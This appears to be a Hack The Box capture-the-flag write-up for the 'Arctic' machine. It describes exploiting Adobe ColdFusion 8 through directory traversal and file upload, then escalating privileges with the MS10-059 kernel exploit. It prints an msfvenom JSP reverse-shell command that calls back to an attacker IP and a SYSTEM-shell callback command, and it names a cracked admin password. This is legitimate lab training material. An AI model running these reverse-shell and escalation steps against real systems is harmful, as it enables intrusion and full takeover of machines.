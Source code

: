 ```yaml
---
title: Arctic
date: 2024-03-03 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Arctic is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic web enumeration with using exploits to grab credentials and get a shell. The foothold is accomplished after using a public exploit that will allow for arbitrary file upload. The privilege escalation/abuse is using a file on the machine is done through a kernel level exploit that allows us to get a shell back through a public exploit as the `nt authority\system.`

## Nmap Scan
sudo nmap -sS -Pn `10.10.10.11` -vvv
* 135/tcp   open  msrpc   syn-ack ttl 127 
* 8500/tcp  open  fmtp    syn-ack ttl 127
* 49154/tcp open  unknown syn-ack ttl 127

> Web page here: http://10.10.10.11:8500/

## Basic Enumeration
Going out to the web page on port `8500`, we see two file directories, `CFIDE` and `cfdocs`. Looking through these, we eventually find `administrator`, asking for admin credentials. The web server appears to be an Adobe ColdFusion 8 developer server. 

* Using an exploit to abuse directory traversal, we are able to grab a hash for a password: `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`
* https://www.exploit-db.com/exploits/14641

We get this password `happyday`, and we can sign into the administrator login portal. 

## Foothold
There is a lot here, so we can either find a path here, or go back and look around more for other exploits. 

* Looking around further, we see these kinds of server's have arbitrary file upload available to abuse. 
* https://github.com/nipunsomani/Adobe-ColdFusion-8-File-Upload-Exploit

In order to use this, we will either need to get a reverse `.jsp` shell, or we can generate one with msfvenom. 

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.5 LPORT=8081 -f raw > shell.jsp

* After running this, we can get a connection back to our attacker machine with netcat waiting. We are now on the box as user `tolis`. We have `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/arctic/Arctic_User.png?raw=true)

## Local Enumeration
We can run systeminfo, and run local exploit suggester to find possible paths to Privilege Escalation. Trying to run `winpeas` doesn't seem to work, and trying to run powershell on top of the shell seems to break the current foothold. 

* In order to find a way to run `winpeas` on the machine, we ended up pulling down a powershell reverse tcp script to get a `powershell` shell. From here, we then brough over a `meterpreter shell`, and got a connection back. We did this to have a more stable shell. 
* Using msfvenom to create a regular `windows/shell_reverse_tcp` didn't work for us to execute on the host, which is why we opted for the meterpreter shell. 

## Privilege Escalation
When doing exploit suggester, we get a lot of possible options, and the guided mode from `HTB` suggests to try to exploit the vulnerability related to `MS10-059`.

* https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059
* POC: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

We pull the file `MS10-059.exe` onto the host, and execute this as the following to get a shell back as the administrator: `MS10-059.exe <hackerip> <listeningport>`

* Now we have access as `nt authority\system`, and can read `root.txt`:

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/arctic/Arctic_Root.png?raw=true)